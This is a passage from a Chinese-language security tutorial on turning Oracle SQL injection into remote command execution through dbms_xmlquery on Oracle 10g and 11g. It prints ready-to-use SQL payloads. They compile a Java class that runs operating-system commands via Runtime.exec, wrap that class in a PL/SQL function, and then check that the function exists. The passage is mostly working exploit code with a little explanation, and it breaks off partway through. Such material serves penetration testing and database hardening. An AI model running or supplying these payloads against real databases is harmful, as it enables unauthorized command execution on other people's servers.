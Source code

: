 成功的执行了系统命令

# Oracle 注入下的 RCE

上述介绍的`Java Source`、`Function`、`Lib`是 RCE 的几个原理，那在实际环境中，我们从外部注入，只能执行单条语句的时候，我们该怎么办呢？

## dbms\_xmlquery

影响版本：oracle 10g、11g，部分版本  
这里我的环境是 11.0.2.0 版本。  
在上述低版本中这个函数才可以进行 RCE，高版本都被修复了，这个函数本身是用来解析一段 XML 内容的，但是可以用来执行我们的 SQL 指令，可以把多条语句一起执行，起到多语句执行的目的

```plain
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args) {try{BufferedReader myReader= new BufferedReader(new InputStreamReader( Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'';commit;end;') from dual;
```

[![](assets/1709112088-d8cb0afc2f13a27c7011cf0ea782efbe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101145-b884751c-d5de-1.png)

```plain
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name ''''LinxUtil.runCMD(java.lang.String) return String''''; '';commit;end;') from dual;
```

[![](assets/1709112088-62a7c8cbae5e82869124c67c35edc1c8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101150-bc0926c4-d5de-1.png)

然后可以查询一下 object 是否存在

```plain
select OBJECT_ID from all_objects where object_name ='LINXRUNCMD';
```
